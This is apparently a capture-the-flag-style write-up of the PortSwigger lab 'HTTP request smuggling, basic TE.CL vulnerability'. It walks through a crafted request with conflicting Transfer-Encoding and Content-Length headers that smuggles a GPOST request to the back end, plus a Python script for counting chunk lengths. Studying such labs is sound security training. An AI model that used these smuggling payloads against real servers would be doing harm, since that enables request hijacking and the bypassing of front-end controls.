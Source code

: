 # HTTP request smuggling, basic TE.CL vulnerability

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl), you'll learn: HTTP request smuggling, basic TE.CL vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127190609.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127190619.png)

We can try to test the web application is vulnerable to HTTP request smuggling.

Let's send this request to Burp Suite's Repeater:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127190655.png)

First, we can try to test TE.CL HTTP request smuggling, which is the front-end server uses `Transfer-Encoding` header and the back-end server uses `Content-Length` header.

**But before we do that, we need to ensure that the "Update Content-Length" option is unchecked, and show non-printable chars:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127193636.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127193647.png)

**Then, change the request method to POST:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127193747.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127193754.png)

**After that, we can build our smuggling request:**
```http
POST / HTTP/1.1
Host: 0a7700350455b0c2c1d18a7800ee0090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

The front-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 65 (In hex) bytes long, up to the start of the line following `smuggled=yes`. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the `Content-Length` header and determines that the request body is 4 bytes long (`65\r\n`), up to the start of the line following `65`. The following bytes, starting with `GPOST`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

> Note: You need to include the trailing sequence `\r\n\r\n` following the final `0`. Which is pressing "Enter" twice.

**Hence, the smuggled request will be:**
```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

**To count the chunk's length and smuggled `Content-Length`, I'll write a Python script:**
```py
#!/usr/bin/env python3

class Counter:
    def countLength(self, string):
        try:
            print(f'[+] Smuggled Content-Length: {len(string.encode("utf-8"))}')
        except:
            print('[-] Unable to count the smuggled Cotent-Length')

    def countChunkLength(self, string):
        try:
            print(f'[+] Chunk length in decimal: {len(string.encode("utf-8"))}')
            print(f'[+] Chunk length in hex: {hex(len(string.encode("utf-8")))[2:]}')
        except:
            print('[-] Unable to count the chunk length')

def main():
    counter = Counter()

    smuggledContentLengthString = '''\nsmuggled=yes\r\n0\r\n\r\n'''
    counter.countLength(smuggledContentLengthString)

    ChunkLengthString = '''GPOST / HTTP/1.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 11\r\n\r\nsmuggled=yes'''
    counter.countChunkLength(ChunkLengthString)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/Portswigger-Labs/HTTP-Request-Smuggling)-[2023.01.27|20:23:55(HKT)]
└> python3 count_bytes.py
[+] Smuggled Content-Length: 20
[+] Chunk length in decimal: 101
[+] Chunk length in hex: 65
```

**Chunk length:**
```http
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 20\r\n
\r\n
smuggled=yes
```

**Smuggled `Content-Length`:**
```http
\n
smuggled=yes\r\n
0\r\n
\r\n
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127201218.png)

We successfully smuggled the GPOST request!

# What we've learned:

1. HTTP request smuggling, basic TE.CL vulnerability